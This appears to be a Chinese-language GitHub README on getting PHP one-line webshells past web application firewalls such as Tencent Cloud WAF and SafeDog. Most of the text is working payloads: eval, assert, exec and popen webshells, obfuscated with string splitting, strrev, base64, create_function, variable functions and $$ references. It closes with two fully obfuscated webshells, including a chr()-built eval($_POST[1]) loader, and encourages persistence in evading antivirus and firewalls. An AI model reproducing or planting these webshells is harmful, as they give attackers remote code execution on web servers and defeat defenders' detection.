 
### PHP-WebShell-Bypass-WAF

  PHP WebShell 一句话的结构是:输入和执行,这是经典的PHP 一句话代码:

```PHP
    <?php eval($_GET['test']); ?>
    <?php eval($_POST['test']); ?>
```

WebShell 的输入点在<b>$_GET</b> 和<b>$_POST</b> ,执行点在**eval()** ,经典的一句话WAF 都会拦截<br/>

  测试:`<?php eval($_GET['test']); ?>`

![](pic/php-eval-get.png)

  测试:`<?php $_GET['test']; ?>`

![](pic/php-get.png)

  测试:`<?php eval(); ?>`

![](pic/php-eval.png)

  综合上面三点,可以发现WAF 是通过关键字来拦截的,把这三个测试用例放到安全狗下测试

![](pic/php-eval-get-safedog.png)

  可以发现,安全狗是通过综合判断来识别WebShell 的,现在,我们有两种的绕过方式:关键字绕过和混淆绕过

### 关键字绕过

  一般来说,WAF 里边的拦截规则都是使用了正则来匹配的,第一个绕过思路:**寻找WAF 拦截里边有没有匹配的关键字**<br/>
  
  测试用例:`<?php%20assert('$code='.$_REQUEST['code']);$code();%20?>`

![](pic/tencent-WAF-assert-bypass.png)

  测试用例:`<?php%20$file=file_put_contents('code.php','<?php%20'.$_REQUEST['code'].'%20?>');include%20'code.php';%20?>`

![](pic/tencent-WAF-include-bypass.png)

  测试用例:`<?php%20exec($_REQUEST['code']);%20?>`

![](pic/tencent-WAF-exec-bypass.png)

  测试用例:`<?php%20$handle=popen($_REQUEST['code'],'r');echo%20fread($handle,1024*4);?>`

![](pic/tencent-WAF-popen-bypass.png)

  测试用例:`<?php%20$function=create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();%20?>`

![](pic/tencent-WAF-create_function-bypass.png)

  思路1 总结:尽可能找到更多不被拦截的函数,然后用来测试

  后来,这些关键字都被策略补上去了,接下来就使用混淆来绕过关键字检测

### 混淆绕过

  `create_function()` 是比较有意思的函数,函数的原型为:[Link](http://php.net/manual/en/function.create-function.php)
  
```PHP
    string create_function ( string $args , string $code )
```

  第一个参数是函数需要的参数列表,第二个参数为函数代码,最后会返回一个函数对象,然后再去调用.在构造代码的时候(构造第二个参数)可以有很多不同的混淆方法
  
```PHP
    eval($_GET['test']);
```
  
  通过很多不同种类的字符串变化成下面的例子
  
```PHP
    'ev'.'al'.'($_G'.'ET['.'"test"]);'
    strrev('$(lave').'_G'.'ET['.'"test"]);';
    base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=');
```

  这样的变化是非常多的,用云WAF 和安全狗测试一下:

```PHP
    <?php $function=create_function('$code','ev'.'al'.'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',strrev('$(lave').'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=')) ?>
```

![](pic/create_function_tencent-WAF.png)

![](pic/create_function_safedog.png)

  腾讯云WAF 的策略是把`create_function()` 当作敏感函数拦截了,这三个WebShell 安全狗也都全部杀掉,先从安全狗开始尝试绕过.
  
  首先使用一个空的`create_function()` 尝试看看安全狗有没有杀掉

![](pic/create_function_safedog_nokill.png)

  向`create_function()` 填充一些可以执行的代码,安全狗也没有杀.

![](pic/create_function_safedog_nokill2.png)

  填充`eval($_GET['test'])` ,发现安全狗识别出WebShell
  
![](pic/create_function_safedog_kill.png)

  使用混淆`'ev'.'al'.'($_G'.'ET['.'"code"'.']);'` 也同样可以被识别

![](pic/create_function_safedog_kill2.png)

  使用`strrev('ve').strrev('la').base64_decode('KCRfR0VUWw==').'"code"'.']);';` 也还是可以别识别

![](pic/create_function_safedog_kill3.png)

  不过不要灰心,PHP 是很灵活的语言,变化的花样很多,试试这样写,就可以绕过安全狗的扫描了

![](pic/create_function_safedog_kill4.png)

  做一句话WAF 绕过和免杀,一定要相信自己,AV 和WAF 除了用关键字和综合判断来识别WebShell ,终会有办法绕过的.现在过狗,接下来介绍一下间接调用函数与间接引用变量.

### 间接调用函数

  PHP 里边有个语法是`$function='eval';` ,然后就可以直接对$function 变量进行函数调用,语法是`$function()`.基于这一点,我们回过头来绕过云WAF

Payload:

```PHP
    <?php $function='create'.'_function';$function=$function('$code','ev'.'al'.'($_'.'GET'.'["code"]);');$function();?>
```

![](pic/tencent-WAF-create_function-bypass-remix.png)

### 间接调用变量

  PHP 还有一个语法是`$$` 间接引用变量,比如:`$test=1234;$reference='test';echo $$reference;` 这样使用,reference 变量里边保存test 变量的名字,然后用符号$$ 即可引用到变量test .这样有什么意义呢?因为WAF 和AV 会通过$_GET ,$_POST 来判断WebShell ,不妨回到云WAF 再看看

![](pic/tencent-WAF-$_GET.png)

  使用`$$` 来绕过,Payload 如下:

```PHP
    <?php $a = '_GET';echo $$a['test'];  //  云WAF 规则已经更新,<?php ?> 会被拦截,所以去掉?> 即可绕过,由此判断是正则匹配,可以开开脑洞发挥一下绕过正则判断
```

![](pic/tencent-WAF-$_GET-bypass.png)

  这样就可以绕过对$_GET ,$_POST 的检测,同样,还有$_REQUESTS ,$_COOKIE 

![](pic/tencent-WAF-$_COOKIE-bypass.png)

### 文末总结

  到了这里,举一些不错的一句话木马来分析一下原理,推荐深入研究的读者访问这里[Link](https://github.com/tennc/webshell/tree/master/php)

1.

```PHP
    <?php array_map("ass\x65rt",(array)$_REQUEST['expdoor']);?>
```

  这个WebShell 使用到`array_map()` 和`ass\x65rt` ,array_map() 是调用函数的,第一个参数是即将要调用的函数名,这里`ass\x65rt` 使用了编码绕过,绕过了字符串判断,第二个参数是传递给这个函数的参数

2.

```PHP
    <?$_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();?>

```
  这个WebShell 使用到了间接引用函数,$_uU 重定向到chr() ,;$_cC 最后解码为`eval($_POST[1]);` ,$_fF 解码为`create_function` ,最后就是create_function 的调用过程,和php-shell-create_function.php 原理一样



